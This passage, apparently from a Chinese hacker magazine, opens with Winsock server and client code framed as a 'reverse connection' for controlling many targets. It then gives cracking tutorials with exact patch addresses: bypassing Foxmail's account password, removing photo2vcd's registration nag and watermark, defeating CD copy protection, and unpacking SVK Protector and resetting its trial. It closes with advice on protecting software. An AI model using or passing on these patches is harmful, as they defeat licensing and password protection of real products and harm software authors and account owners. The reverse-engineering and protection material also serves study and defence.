}
```

如果循环因为某种原因退出了，那么要将套接字关闭，然后调用 `WSACleanup()` 函数来卸载掉对 `Ws2_32.lib` 的调用。

```c
closesocket(sListen);
WSACleanup();
return 0;
```

上面这个主程序中，我们采用了同时对 8 个通信进行监听，这就要涉及到多线程的实现技术。在线程函数里，我们对收到的请求调用 `recv()` 和 `send()` 进行收发。`CreateThread(NULL, 0, ClientThread, (LPVOID)sClient, 0, &dwThreadId)` 中第三个参数为线程处理函数地址，第四个参数会传给 `lpParam`。`recv` 返回后需要判断 `ret`：为 0 表示关闭，为 `SOCKET_ERROR` 表示错误，否则是收到数据并追加字符串结束符后输出。

收到消息之后还要做一个发送消息的测试，这里要用到 `send` 函数，我们可以把刚才接收到的消息发送回去。

> `send` 函数的结构如下：

`int send(SOCKET s, const char FAR * buf, int len, int flags);`

第三个参数为待发送消息缓冲区中的消息长度。返回值为本次发送长度；每次发送后都应判断返回值，若不是一次发完，需要更新 `nLeft` 与 `idx` 后继续发送。

```c
DWORD WINAPI ClientThread(LPVOID lpParam)
{
    SOCKET sock = (SOCKET)lpParam;
    char szBuff[DEFAULT_BUFFER];
    int ret, nLeft, idx;

    while (1) {
        ret = recv(sock, szBuff, DEFAULT_BUFFER, 0);
        if (ret == 0) break;               // Graceful close
        else if (ret == SOCKET_ERROR) {
            printf("recv() failed: %d\n", WSAGetLastError());
            break;
        }

        szBuff[ret] = '\0';
        printf("RECV: %s\n", szBuff);

        if (!bRecvOnly) {
            nLeft = ret;
            idx = 0;
            while (nLeft > 0) {
                ret = send(sock, &szBuff[idx], nLeft, 0);
                if (ret == 0) break;
                else if (ret == SOCKET_ERROR) {
                    printf("send() failed: %d\n", WSAGetLastError());
                    break;
                }
                nLeft -= ret;
                idx += ret;
            }
        }
    }
    return 0;
}
```

下面我们来看一下客户端程序的编写：首先，我们要定义一些常量，在程序中会使用到的，如端口号、要发送的消息之类。

```c
#define DEFAULT_COUNT   20
#define DEFAULT_PORT    5150
#define DEFAULT_BUFFER  2048
#define DEFAULT_MESSAGE "This is a test of\nthe emergency broadcasting system"
```

接下来，定义一些全局变量，供程序中使用。

```c
char szServer[128];            // Server to connect to
char szMessage[1024];          // Message to send to server
int  iPort = DEFAULT_PORT;     // Port on server to connect to
DWORD dwCount = DEFAULT_COUNT; // Number of times to send message
BOOL bSendOnly = FALSE;        // Send data only; don't receive
```

下面，我们一起从主函数来看看客户端的实现。省略了客户端的 `Usage()` 和 `void ValidateArgs(int argc, char **argv)` 的解析，重点放在主流程与通信处理逻辑。

```c
int main(int argc, char **argv)
{
    WSADATA wsd;
    SOCKET sClient;
    char szBuffer[DEFAULT_BUFFER];
    int ret, i;
    struct sockaddr_in server;
    struct hostent *host = NULL;

    ValidateArgs(argc, argv);

    if (WSAStartup(MAKEWORD(2,2), &wsd) != 0) {
        printf("Failed to load Winsock library!\n");
        return 1;
    }

    strcpy(szMessage, DEFAULT_MESSAGE);

    sClient = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sClient == INVALID_SOCKET) {
        printf("socket() failed: %d\n", WSAGetLastError());
        return 1;
    }

    server.sin_family = AF_INET;
    server.sin_port = htons(iPort);
    server.sin_addr.s_addr = inet_addr(szServer);
    if (server.sin_addr.s_addr == INADDR_NONE) {
        host = gethostbyname(szServer);
        if (host == NULL) {
            printf("Unable to resolve server: %s\n", szServer);
            return 1;
        }
    }
```

```c
// 对 server 地址结构进行赋值
memcpy(&(server.sin_addr), host->h_addr_list[0], host->h_length);

// 向服务器发出连接请求
if (connect(sClient, (struct sockaddr *)&server, sizeof(server)) == SOCKET_ERROR) {
    printf("connect() failed: %d\n", WSAGetLastError());
    return 1;
}

for (i = 0; i < dwCount; i++) {
    ret = send(sClient, szMessage, strlen(szMessage), 0);
    if (ret == 0) break;
    else if (ret == SOCKET_ERROR) {
        printf("send() failed: %d\n", WSAGetLastError());
        break;
    }
    printf("Send %d bytes\n", ret);

    if (!bSendOnly) {
        ret = recv(sClient, szBuffer, DEFAULT_BUFFER, 0);
        if (ret == 0) break;
        else if (ret == SOCKET_ERROR) {
            printf("recv() failed: %d\n", WSAGetLastError());
            break;
        }
        szBuffer[ret] = '\0';
        printf("RECV (%d bytes): %s\n", ret, szBuffer);
    }
}

closesocket(sClient);
WSACleanup();
return 0;
}
```

到这里为止，基本上把反向连接通信的服务端和客户端实现方法介绍清楚了。需要注意的是，反向连接中服务端处在控制端，而客户端处在被控制端。这种方式可以让控制端同时处理多个客户端请求，实现一对多控制，便于在一台机器上同时控制多个目标。

## 编程解析 / PROGRAMMING ANALYSE

icefire：在共享软件多如牛毛的今天，破解和加密这一对对立统一的矛盾激烈到了白热化的程度，如何破解程序的注册限制？如何保护自己程序的合法权益？看似矛盾的两个话题其实可以用同样的方法去解决：共同关注最新的 crack 技术，在攻与防的对立统一中寻求突破！这样我们的安全事业才前途有望！

本文就是简单地讲述逆向工程及常见程序的破解方法，目标不是为了全面了解工具的使用，而是能掌握组合工具快速达到我们破解的目的。这篇涉及到 Delphi 语言编写的程序，共 3 篇：初级篇、进阶篇及技巧篇。现在网上非常流行用 Delphi 及 C++ Builder 编写的程序，破解的方法都可以参考本文。

难度等级：中  
前提知识：各种 Cracker 工具、Borland 编译器、基本汇编语言

## Cracker 兵器谱组合招式之 Delphi 篇

古云：磨刀不误砍柴工。为了更好地破解一个软件，构造一个最佳的工具平台是每一个 Cracker 的追求。在选用工具之前应该明白：工具没有优劣，关键是配合使用。

### 工具

- Dede3.5 中文版：Delphi 及 C++ Builder 编写程序的反汇编杀手。
- OllyDbg1.09D：集成反汇编及动态调试、程序修改等功能。
- Peid0.9：军情探子。
- Aspdie1.41：专门脱 Aspack2.12 壳的程序。
- 实例1：破除 Foxmail5.0Beta2 账号访问口令保护。

### 收集程序相关信息

收集信息是每个 Cracker 必备的良好习惯，可以设想为刺探军情和情报收集。先运行一下带访问口令的 Foxmail，出现如图1所示要求输入密码的窗体，如果输入的密码不正确，则不能查看账号内的邮件。如果忘记密码可就麻烦了，所以我们要把这个东西给 Crack 掉（嘿嘿，谁叫我是 Cracker 呢？手就是“痒”啊！）。


我们一起开始。用 Peid0.9 打开程序，如图2所示。从得到的结果可以知道，这个程序是用 Delphi 编写，而且程序没有加壳保护。第一步分析工作完成。


### 定位密码处理函数

根据前面“探子”提供的军情，本军师现在做出如下推测及对策：程序可能是对输入的密码与预先正确的密码进行比较，如果不正确则提示错误。现在关键的一步是快速定位密码输入的地方，看一下怎么处理输入的密码及怎么提示出错！这是很基本的 Cracker 思维，大家都应该熟练掌握。

现在来验证我们的设想对不对。（注：由于破解不同程序的信息不可能是一样的，所以我们必须时时据军情做出推测。）

现在请猛将 Dede 出马！用 Dede 载入程序，由于 Dede 是把程序载入内存再分析，会等待一段时间，然后出现如图3所示的页面。

我们关心的是“过程”的处理部分，首先在类单元名中选择 main 这个单元（程序开始运行一般从这部分开始），在右边事件窗口中会列出当前的事件。现在我们来找密码处理部分事件。通过仔细观察及查看，发现这个 BoxTreeExpanding 事件最可疑（因为要展开账号才跳出输入口令提示框），双击 BoxTreeExpanding 事件进入汇编部分，得到首地址为：0057C074。


```asm
005B8F16 MOV BYTE PTR SS:[EBP-2],1
005B8F1A JMP Foxmail.005B8FCD
005B8F1F CMP BL,1
005B8F22 JE Foxmail.005B8FCD
005B8F28 MOV ECX,DWORD PTR DS:[5D75EC]
...
005B8F72 CALL Foxmail.004041DC
005B8F77 JNZ SHORT Foxmail.005B8F8E
005B8F79 CMP BYTE PTR SS:[EBP-1],0
005B8F7D JE SHORT Foxmail.005B8F88
```

图3

### 动态分析密码处理过程

现在轮到 OllyDbg 出场，先简单介绍下面将用到的部分功能快捷键：F3－打开程序；F9－运行程序；F8－单步跟踪，遇 call 不跟入；F7－单步跟踪，遇 call 跟入；F2－设置或清除断点；Ctrl+G－去到某地方。好了，掌握上面的东西就可以开始了。

F3 载入 Foxmail 程序，OllyDbg 自动反汇编程序，按 Ctrl+C 打开 CPU 窗口，再按 Ctrl+G，在跳出的窗口中输入上面得到的地址值 0057C074，在这行按 F2 下断，设置成功的话会在地址处红色显示（图4）。


图4

然后 F9 运行程序，切换到 Foxmail 程序，双击账号，程序被中断，转到 OllyDbg，F8 单步执行程序，代码如下所示（“;”后面是加的注解）。

```asm
0057C098 XOR EDX,EDX
0057C09A CALL Foxmail.005B8ECC ; 这里跳出提示框
0057C09F TEST AL,AL
0057C0A1 JNZ SHORT Foxmail.0057C0A6
...
005B8F14 JE SHORT Foxmail.005B8F1F ; 这里判断是否有密码保护
```

只要走到 005B8F72 这句，EDX 处就是以明文形式出现真密码，真是晕死，大名鼎鼎的邮件处理专家竟然用明码保护账号，怪不得学 Crack 的人越来越多……

### 实例2：破解 photo2vcd V2.71 功能限制

photo2vcd 是一个可以把图片转换为 VCD 格式的国外软件，最新版本为 2.71。

### 收集程序相关信息

按上面的方法检测，发现程序是用 Aspack2.12 加的壳。为了便于分析，我们用 Aspdie1.41 来把程序的壳脱掉，对脱掉壳的程序再用 Peid 检测，发现程序用 Delphi 编写。通过浏览程序的说明资料，可以发现程序如果未注册，图片背景后会打上一条水印字句“Created by Photo2VCD Professional”。运行程序，发现程序在运行前会弹出一个输入框要求输入注册码，初步确定程序保护方式“加壳 + Nag + 注册码”。


```asm
text
ASCII "Sorry, Your software has expired. Please go to http://www.photo2vcd.com to order a register key"
006EBC08  MOV EAX, DWORD PTR DS:[7D8C8]
```

### 功能限制的解除

用 Dede 载入脱壳后的程序，先分析输入注册码处理部分。点击过程栏目，选择 `ProRegistration` 单元名，双击 `BitBtn1Click`（响应单击注册按键处理部分）。

```asm
text
006E9330  push ...
*Possible String Reference to 'Sorry! Your license name and register key doesn't match!'
006E9332  mov edx, ...
006E933C  mov eax, dword ptr ...
006E9343  call ...
006E9348  ret
```

可以发现程序对输入注册码直接显示注册失败信息。同时程序提到未注册版本有打上水印的限制，因此针对该版本进行修改，去除 Nag 提示及功能限制。选择 `promain` 单元后可定位到相关判断代码。

```asm
text
006EBB75  JNO SHORT Photo2VC.006EBB77
006EBB79  JNZ Photo2VC.006EBC22   ; 这里判断是否注册
...
ASCII "v"
ASCII "[Unregistered]"
...
```

注意上面的未注册及过期提示信息，这里是调用 Nag 提示框的代码。关键跳转在 `006EBB79 JNZ Photo2VC.006EBC22`，将 `JNZ` 改为 `JMP` 即可。

使用 OllyDbg 修改代码并去除写入水印。载入程序后在 CPU 窗口右击，选择 `search for/all referenced text strings`，在弹窗中查找 `Created by Photo2VCD Professional` 字符并定位。

```asm
text
006F3B5C  CMP BYTE PTR ...
...
ASCII "Created by Photo2VCD Professional"
...
006F3B79  MOV EAX, DWORD PTR DS:[EAX+C]
006F3B86  JMP SHORT ...
006F3B8A  CALL ...   ; 跟进后发现这里写字符串，改成 nop
...
```

在 OllyDbg 的 CPU 窗口双击 `006EBB79`，输入新汇编 `JMP 006EBC22` 并 assemble。再到 `006F3B8A` 输入 `nop` 并 assemble。随后右击代码区，选择 `copy to executable/all modifications`，在弹窗中保存文件，运行后 Nag 与功能限制可去除。

### 总结

基本招式：Dede 获取关键代码，OllyDbg 用于调试、查找字符串、修改代码等。组合招式：通过 Peid 查信息、Dede 反汇编、OllyDbg 查找字符串定位关键代码，并对关键代码动态跟踪验证推测。你学会了吗？

难度等级：高

前置知识：光盘加密的常用手段

## 加密光盘破解全接触


文／图 netbug

小弟平时喜欢编写软件，当然是高质量的大型软件（倒，先别扔我鸡蛋！），编写完了以后就需要把软件打包到光盘上面去好发行。今天我们不讲如何给软件打包，只讲如何将光盘加密起来并验证相应加密方法的可靠性，因为黑客防线提倡的是“在攻与防的对立统一中寻求突破”嘛！

……我们读出了FDT，自然就看到哪些目录不在你现在加密的光盘上出现，要找的东西自然就是它了！

### 一般的光盘加密方法与破解方法

#### 1. 隐藏目录与文件法

一般来说，将文件和目录隐藏起来而让别人无法看到的做法是最普通的。我们在用 Ahead 刻制光盘的时候，设置其属性为 Windows 隐藏属性就可以达到这样的效果。但是最普通的就意味着最容易被人破解，破解的时候只要简单地打开 Windows 显示隐藏文件夹的功能就可以破解了，实在不是什么好办法。

#### 2. 变相的隐藏目录和文件法

这种方法要比前面的那种要好一点。它利用特殊的光盘软件将光盘文件和目录的属性改为其他数值。在光盘目录里，光盘文件也有一个同 Windows 对应的 FDT（文件目录表）……如果我们把其改为了其他数值，那么 Windows 就无法识别了！这样隐藏的效果比前一个要好……不过还是可以方便地破解，我们可以用“光盘加密大师”的自定义目录属性来修改它。


读者朋友可能就要问了：要怎样才能把光盘的 FDT 读出来呢？……这是一款虚拟光驱软件，所有操作都很人性化。

#### 3. 文件目录互换法

这个道理和前面的第二个方法相似，只是它要聪明一点：在 FDT 中直接把表示目录的位变成了表示文件的位！但是，它在本质上仍然是目录，这是永远改不了的！


图2是我们采用特殊工具把一个“常用软件”目录变成了一个文件。看上去还真的像一个文件的样子，用鼠标双击它看看……破解办法如图3所示。


呵呵，是不是差点笑掉了大牙？直接在 DOS 状态下来一个 CD 命令就摆平了……因此当实际运用的时候，你发现一个没有图标的文件，大小为2KB，并且在 Windows 里面打不开，这时候就该考虑一下它是不是目录了！

#### 4. 特殊字符目录法

在 Windows 里，大部分用的都是中文和英文字母，如果光盘加密的时候采用了特殊字符来加密的话，我们就看不到目录的名字了，这也是许多数字资料光盘在加密时常见的方法。

常见的特殊字符如 `\`、`\`，图4就是在寻找特殊目录的时候看到的：


图4

是不是觉得够玄啊，有点像攻防实验室的777.jpg了。看到 gphyview.exe 前面的那个字符了吗？

遇到这样的光盘关键是找到这个特殊字符是什么了。一般来说如果加密光盘附带程序，那么你打开这个程序搜索 `\` 这个字符一般会有你想要的结果，就跟上面这幅图一样。如果不幸的话，就只能用读光盘 FDT 的方法了。

### 更为“疯狂”的光盘加密与解密思路

点子都是人想出来的，下面我们将重点介绍一些鲜为人知的光盘加密办法，大家看好了。

#### 1. 超大文件加密法

加密后的现象：

- 如果是可执行文件，其图标将变成一个 DOS 应用程序的图标；如果是一般文件，则图标依 Windows 内部文件类型为准。
- 文件的大小突变为1.99GB，够大吧，像 DVD 了。
- 可执行文件如果大小变为了1.99GB后依然可以运行。
- 如果你试图拷贝这个文件，那么你得到的结果将如图5所示。


图5

没话说了吧，如果你的空间大的话，你是可以 Copy 的，试问你的硬盘有多少个1.99GB呢？加密者通常是把所有可执行文件加密为超大文件。

##### 破解方法

对于可执行文件，我们可以先直接运行这个可执行文件，然后用进程 Copy 软件（如 pedump）把文件从内存中重建为文件。若程序很快弹出界面，说明软件本体较小；若等待较久，可能是超大文件伪装。也可以用 WinHex 直接打开文件并另存为。

对于非可执行文件，仍可用 WinHex 直接打开。一个技巧是向下拖动滚动条，记录出错位置，再关闭文件并按该偏移量截取保存，常可恢复正常文件。


图6

这时候在出错的地方记录下文件的偏移位置，关闭文件，再用 WinHex 打开文件，直接保存到出错前的一个偏移字节即可。也可以自己写批处理程序按偏移分段读取与合并。

#### 2. 刻录光盘轨道隐藏法

一般来说，用这一招的人都够狠。加密后的现象是光盘看起来没有奇怪表现，但常规隐藏文件搜索会失败。比如光盘文件看似200M，目录也显示200M，但盘片并未刻满，存在多重区段刻录。

其原理是刻录软件把一张光盘分为多重区段来刻，先刻重要资料，再在后续区段删除或覆盖目录项并加入新内容，因此同一光盘在未终结刻录前可被反复修改，甚至卷标也可改，隐藏性很强。

##### 破解方法

解铃还需系铃人，找到刻录软件（如 Ahead Nero）查看多重区段信息。直接查看光盘区段可发现多个 session，利用 Nero 的区段保存功能导出 ISO 即可。文中示例提到该盘被刻录过3次，区段01刻录约136MB。


……的时候，把刻上去的东西删除了，再刻2、3区段，那么光盘的表现形式就是2、3区段的文件。采用保存轨道的方式见下，我们就可以得到轨道的 ISO 文件了（图8）。顺便说一下，WinRAR 可以解开 ISO 文件。怎么样，惊喜吧？

资料，希望本文带给你的是如何保护自己软件的方法，而不是叫你去盗别人的加密光盘。谨记！

总结：加密和解密永远是矛与盾的关系，看来我们写的软件注定要被别人盗版了？这就需要软件开发者在软件自己上完善反盗版功能。加密你的光盘，加密你的程序。

> 最后感言：看了这篇文章感觉怎么样？是不是有点跃跃欲试的感觉？呵呵，反正草草现在是再也不怕加密光盘了！因为再遇到这样的光盘我就扔给 netbug，哈哈。

现在的程序为防止被修改几乎都加了壳，虽然有很多自动脱壳程序，但是某些新壳、变形壳是脱壳机所无能为力的。因此，手动脱壳成为 Cracker 必须掌握的技能之一。下面的文章演示了在 Windows XP 系统平台上用 Ollydbg 手动对 SVK Protector DEMO 1.32 主程序脱壳和修复的过程，希望能给脱壳爱好者们一点参考。

适合对象：对脱壳感兴趣的读者

前置知识：简单的脱壳知识，脱壳调试工具的使用

## 用 Ollydbg 对 SVK Protector 程序手动脱壳和修复

文／图 fly[Nuke Group]

某日研究 SVK Protector DEMO 1.32 这个软件的防御措施（下载页面：http://www.pediy.com/tools/packers.htm，1.8MB），发现用这个 DEMO 版以及 ZILOT 破解版加壳的程序很容易被脱壳，但是真正用注册版的 SVK 加壳的程序保护强度是很大的，比 ACProtect 还要难缠！我这次脱的是 SVK Protector DEMO 1.32 版，找 OEP 的方法只适用于对付用 ZILOT 破解版和 DEMO 版加壳的程序。至于后面修复丢失代码的方法或许还稍微有点参考价值。本次调试环境是 Windows XP，Ollydbg 1.09，PEiD，LordPE，ImportREC，WinHex。

```asm
004C9014    64:A0 23000000      mov al, byte ptr fs:[23]
// Win.98下调试注意这个值，应该是AL=0
004C901A    EB 03               jmp short Svkp...
004C901F    84C0                test al, al
004C9021    EB 03               jmp short Svkp.004C9026
004C9026    75 67               jnz short Svkp.004C908F
// 在Win.98下调试改变之一：使这里不跳，则OVER...
```

### 寻找 OEP

先用插件 IsDebug 1.4.dll 去掉 Ollydbg 的调试器标志，设置忽略除了“内存访问异常”之外的所有其他异常。用 Ollydbg 手动脱壳，老规矩，载入后弹出“是压缩代码——要继续进行分析吗？”，点“否”。

```asm
004C9000    60                  pushad
// 进入OD后就看到
004C9001    E8 00000000         call svkp.004C9006
```

下面就是反跟踪。调用 kernel32!_lopen 检测有无危险产品，其实和 CreateFileA 的效果是一样的。

```asm
004C902D    8DB5 C5020000      lea esi, dword ptr ss:[ebp+2C5]
004C9033    56                 push esi
004C9034    8006 44            add byte ptr ds:[esi], 44
004C9037    46                 inc esi
004C9038    E2 FA              loopd short svkp...
004C9034    ...
```

### 杀检测的工具：

```asm
004C92C6 5C 2E 5C 54 52 57 00 5C 5C 2D 5C 53 49 43 45 00  ; \\TRW\\SICE
004C92D6 3C 5C 2E 5C 4E 54 49 43 45 00 5C 5C 2D 5C 46 49  ; \\NTICE\\FI
004C92E6 ... ; LEVXD\\FILEMO
...
004C9046 FF95 0C610000   call dword ptr ss:[ebp+610C] ; kernel32.lopen
...
004C905C E2 E3           loop short ...
```

下面用 F9 和 Shift+F9 运行，中断在异常处。注意程序有很多地方是反单步跟踪的。

```asm
07B40492 8900            mov dword ptr ds:[eax],eax   ; 第1次异常
07BA03E1 8900            mov dword ptr ds:[eax],eax   ; 第2次异常
07BA137B 6285 0E0B0000   bound eax,qword ptr ss:[ebp+...]
07BA3C57 0B 01           int ...                      ; 第4次异常
```

此时按“Ctrl+F”快捷键在“整个区段”查找命令 `add edx, dword ptr ss:[ebp]`

```asm
07BBB8A9 0355 00         add edx,dword ptr ss:[ebp]
; 找到这里，F2此处下断，Shift+F9断在此处
; EDX=00001000 + 00400000 = 00401000（OEP）
```

按“Ctrl+F”快捷键，在“整个区段”查找命令 `mov dword ptr ss:[esp+1C], edx`

```asm
07BBB920 8954241C        mov dword ptr ss:[esp+1C],edx
; F2此处下断，F9断在此处
; [esp+1C]=[002F7BC]=EDX=00401000
```

程序返回的是 OEP+1 的地方，想看看是如何返回的吗？

```asm
Ctrl+F 在07BBB920下面查找命令：inc dword ptr ss:[esp]
07BBB9ED FF0424          inc dword ptr ss:[esp]   ; 找到第1个
07BBB9F1 EB 02           jmp short 07BBB9F5
07BBBB20 FF0424          inc dword ptr ss:[esp]   ; 找到第2个
07BBBB23 EB 02           jmp short 07BBBB27
07BBBBC6 FF0424          inc dword ptr ss:[esp]   ; 找到第3个
07BBBBC9 EB 02           jmp short 07BBBBCD
07BBBD2F FF0424          inc dword ptr ss:[esp]   ; 找到第4个
07BBBD32 EB 02           jmp short 07BBBD36
07BBBD36 C3              retn
; 返回至 00401001
```

重新载入程序，我们已经知道 OEP，以及程序返回的是 401001，所以在内存 401001 处下内存访问断点，程序会中断在 OEP 的下面代码处。用 LordPE 纠正 ImageSize 后完全 DUMP 这个进程……

### 修复输入表

我曾经跟踪过几个 SVK Protector 加壳的试炼品，发现也像 ASP 那样有些特殊函数，是 ImportREC 识别不出来的。常见的特殊函数有：GetVersionExA、GetModuleHandleA、ExitProcess 等……把 ImpREC.ini 改名或删除后再运行 ImportREC，选择目标进程，OEP 改为 00001000，点“AutoSearch”“Get Import”，再手工修复未识别函数。

ImportREC 未识别的函数：

```asm
0 000C51F8 0000 07D333DD
0 000C5200 0000 07D32070
0 000C521C 0000 07D37656

00401005 FF15 1C524C00   call dword ptr ds:[4C521C]   ; 应是 GetVersionExA
00401028 FF15 00524C00   call dword ptr ds:[4C5200]   ; 应是 ExitProcess
00401086 FF15 F8514C00   call dword ptr ds:[4C51F8]   ; 应是 GetModuleHandle
```

### 修复脱壳后的程序

运行脱壳后的程序弹出没有找到注册文件，然后退出。Ollydbg 载入脱壳后的程序看看。

```asm
00401000    68 1DF34B00          push dumped.004BF31D
00401005    FF15 1C524C00        call dword ptr ds:[<&kernel32.GetVersionExA>]
0040100B    85C0                 test eax,eax
0040100D    75 1F                jnz short dumped...
0040102E    ...                  ...
```

还原被壳抽取的关键代码比较麻烦，这是 SVK Protector 做得比较出色的部分。

> "If You are there, You are a good cracker, but this is only the beginning"

这是调试时从代码中发现的作者的留言，的确，偶的噩梦开始啦……

可以正常运行了，但是执行加壳功能时程序自动退出！分别载入原程序和脱壳后的程序比较跟踪，原来许多关键功能的代码部分均被分块加密了！执行时再从壳里面还原，执行完后又清除。偶脱壳时没有这部分代码，当然无法执行关键功能了。郁闷，这么多代码要手动还原，比 ASProtect、ACProtect 等猛壳还变态！

让壳和被加壳的程序溶为一体，互不分离，可谓是壳的美妙理想，是许多壳孜孜以求的境界！相对而言，SVK Protector 在这方面变形技术做得比较好。

整理的丢失代码总序表：详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

当我费了九牛二虎之力熬了两个通宵把这些被壳抽取的代码统统还原后，可以正常运行并且能够加壳了。正想去休息时却发现被加壳后的程序居然无法运行，我苦笑连连，SVK Protector 太厉害了！重新分析若干次，无果。却突然想起以前用原版调试时加壳的程序也是无法运行！于是关掉所有的调试器，运行 SVK Protector 原程序，然后直接用 LordPE 纠正 ImageSize 后完全 DUMP 这个进程。接着修复输入表，把这些丢失代码再次全部还原，终于正常啦！

#### 1. 第一处被抽取的代码

```asm
0041A731    FF25 BD3AD307        jmp dword ptr ds:[7D33AD1]   // 入壳还原
...
07D3578B    F3 A4                rep movs byte ptr es:[edi], byte ptr ds:[esi]
// 这里对0041A741至0041A828之间代码进行还原
```

好了，代码还原后，部分脱壳 0041A741，大小 0041A828-0041A741=E7；存为 0041A741.dmp；用 WinHex 把这段代码写入脱壳后程序的相应位置！改 0041A731 后面全部 NOP；详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

#### 2. 第二处被抽取的代码

```asm
0041A82D    FF25 4B5AD307        jmp dword ptr ds:[7D35A1B]
```

这段代码还原成：

```asm
0041A82D    90    nop
0041A82E    90    nop
0041A82F    90    nop
0041A830    90    nop
0041A831    90    nop
0041A832    90    nop
0041A833    90    nop
0041A834    90    nop
0041A835    90    nop
0041A836    90    nop
0041A837    90    nop
0041A838    C3    retn
```

限于篇幅，后面的几十处代码还原就没有罗列了，有兴趣可以自己试试。

### 关于破解

- 如果你的 SVK Protector DEMO 1.32 已经过期或者弹出某某错误拒绝运行，去你的 system32 下（Win98 是 system）把 svkp2.dll 和 ispn2.dll 两个文件删除，这两个文件保存的就是使用天数、次数的信息。
- 程序界面中出现的“Unregistered, Demo”字样就随你心意修改了，改成你自己的专用版？
- 用其加壳后目标程序运行弹出的“Unregistered Version”的保护提示可以这样去除。

```asm
0042AF06    FF93 18610000        call dword ptr [ebx+00006118]
```

把上面代码改成下面的就行啦，以后加壳不会再出现 NAG 了。

```asm
0042AF06    83C4 10    add esp,10
0042AF09    90         nop
0042AF0A    90         nop
0042AF0B    90         nop
```

icefire 编后：彼素敌人之间来问我者，因而利之，导而舍之，故反间可得而用也。或许此篇文章能给广大软件逆向工程爱好者启迪、开拓思路。对这次脱壳的经历有什么心得？

icefire：中国的共享软件正在飞速地发展，每天都会涌现出许多优秀的国产共享软件。在这种环境下，共享软件的软件保护（Software Protection，即如何能使你的程序避免被破解或难以被破解）越来越成为中国几百万程序员所关注的问题。本文作者是一个优秀的程序员，将他多年从事软件防护的经验和盘托出，对于广大共享软件的开发者而言，不啻是一道什锦好菜。

- 适合对象：程序员
- 前置知识：程序编写经验

## 怎样算是一个好的软件保护

文／LingDi [Nuke Group]

编写一个好的软件保护并不是一件容易的事情，但是却绝非不可能。请记住，如果你在程序中使用了一个公开的或被人所熟知的保护模块、动态连接库、控件或者是一种保护方法，那么可能会使 Cracker（即破解者）的工作容易很多。大多数的 Cracker 都有很多专门针对这些公开保护模块或加密方法的破解工具和破解方法。目前有 80%～90% 的公开保护模块已经有了相对应的解密工具或方法，所以一个好的软件保护的关键是选用一种非公开的或者鲜为人知且有效的方法或者模块，这样可以使得 Cracker 花费更多的时间在你的软件保护上，或者使其放弃继续破解你的软件。

以下是我归纳总结的一个好的软件保护的特点以及规范，若你能妥善应用，将必定会有较好的 Anti-Crack。

### 1. 在编程过程中尽量不要输入任何描述性的信息

举个例子，如果你的程序中包含一个被命名为“TestRegistration”的函数用来检测注册信息的正确性，那么当 Cracker 反汇编你的程序之后，将很容易找到这个关键函数，从而有针对性地进行详细分析。又如，你将程序的注册码窗体命名为“REGFORM”，Cracker 也会很快确定关键位置加以分析。这一条在使用 Delphi、VB 或者 BC 编译的软件中尤为突出。

### 2. 在编译后的软件中应尽量避免多余的提示信息

如果当用户输入了一段注册码后你的程序给出了提示信息，如“注册成功，感谢您使用 XXXX……”或者“注册失败，注册码格式必须为 XXXX……”等，那么你的这些提示信息将会以明码的形式保存在程序中。几乎通过任何一种反汇编工具，Cracker 都可以很容易找到这些提示信息，从而确定关键的注册码计算位置以及对比语句。若必须提示，建议不要直接明码提示，可在系统其他位置记号并延时处理，避免被轻易定位。

若基于某些特殊情况必须加以提示，那么想办法实现动态创建这些对话框，要比将这些提示信息以明码的形式保存在资源中、待需要的时候调用要好得多。

### 3. 注册算法中应当至少使用一种标准加密算法

强烈推荐您在程序中至少使用一种标准加密算法，个人推荐 RSA1024、ECC 或者 DSA 这 3 种非对称算法。即使这种算法无法防止你的程序被破解，最起码也会使 Cracker 花费更多的时间来破解你的程序。若使用得当，还可以使 Cracker 难以做出你软件的注册机（KeyGen）。

### 4. 随时验证注册信息的正确性

在一个不起眼的地方或者一个 Cracker 想不到的时间来验证注册信息的正确性或者程序的完整性，是一个非常有效的保护方法，因为 Cracker 非常厌烦破解这种软件保护，它使得你的程序很难被真正破解。

### 5. 尽量避免在用户输入完注册码后立即进行注册码验证

这样做会使 Cracker 难以确定你的程序验证注册码这部分代码的具体位置，从而加大破解的难度。比如很多共享软件在你输入完注册码后会要求你重新启动程序或强制关闭程序，等第二次启动的时候再在某一处验证你刚才所输入的注册信息的正确性。最终目的都是让 Cracker 很难确定你程序真正判断注册信息正确性的代码位置。同样的，在用户输入完注册信息后执行一段无关紧要的判断代码，然后在其他地方再进行真正的注册验证，也是一个不错的办法。

### 6. 在你的程序中添加软件完整性验证信息

若你在程序中添加了校验信息以及验证代码来判断程序的完整性，将使 Cracker 无法简单地通过破解补丁来修改你的程序；即使对于内存补丁（Loader），若设计得当，也可以根据这一条完成对内存代码的 CRC 或其他算法的校验，使 Cracker 无法轻易从内存修改下手破解。当你能将这条妥善地应用后，将会很有效地防止 Cracker 修改你的程序或者通过编写 Loader 来载入破解。与第三条搭配的话，就是一个完整的 Anti-Crack 方案了。

### 7. 分布验证可以使你的程序更难被破解

若你能很好地应用第 6 条，并且在条件允许的情况下，建议您可以多次测试注册信息的正确性或程序的完整性，而不是一次验证。这样可以使 Cracker 难以明白你软件的完整注册算法。当你能妥善地使用多次验证的时候，Cracker 通常都难以破解你的程序，因为他们常会漏掉一处或者多处验证点。

### 8. 应该充分利用“花指令”

“花指令”对于普通程序员来说可能是一个很难理解的概念，但相对的也是 Cracker 比较厌烦的一种软件保护方式，所以这条更多取决于编程人员的技术条件。在共享软件中有效地应用花指令，可以有效地防止多数反汇编软件对你的程序进行正常的反汇编，而且反汇编后的代码根本无法理解。

关于“花指令”的具体介绍和技术实现方法在网络中有大量的文章，我在此就不重复了，有兴趣的朋友可以自行翻查资料。

### 9. 不要将用户的注册信息保存在容易找到的位置

若你将用户的注册信息简单地保存在 Windows 的注册表中，或者一些明显的 INI 文件中等，将会使 Cracker 很容易地找到它们并进行替换或者修改。推荐将注册信息保存在一个不会被轻易猜测到的地方，比如命名为一个 DLL 文件存放在系统目录下，或者将注册信息附加在一个一般不会被用到的系统文件末尾。这样即使 Cracker 使用监听工具来记录你程序的读写资料，也仍然需要花费很多时间来进行分析。

### 10. 在注册算法中使用单一条件作为运算关键值

在共享软件的注册算法中，应当尽量使用一些每个用户所独有的特征信息，比如使用者电脑中的硬盘序列号、CPUID、主板信息、BIOS 信息等等。这样可以防止一个正版用户非法地在多台机器上注册，同时也可以避免当软件被 Cracker 破解后，通过发布一个正确的注册信息而流传。

### 11. 不要任意给设计的注册码过短

